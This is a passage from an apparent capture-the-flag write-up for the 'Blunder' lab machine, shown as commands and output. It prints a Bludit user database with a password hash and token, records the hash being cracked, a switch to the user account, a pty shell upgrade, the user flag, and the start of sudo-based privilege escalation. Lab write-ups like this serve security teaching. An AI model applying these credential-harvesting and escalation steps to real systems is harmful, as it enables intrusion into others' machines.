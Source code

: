 ```bash
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Again I cannot crack the password. So I used crackstation to crack instead and got password `Password120`.

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
Password: Password120

id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)

python -c 'import pty; pty.spawn("/bin/bash")'

hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cd ~

hugo@blunder:~$ cat user.txt
d88c42da65d18818d0e6fd5c9abcb661
```


# Privilege escalation

When I do `sudo -l` got the following result.

```bash
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
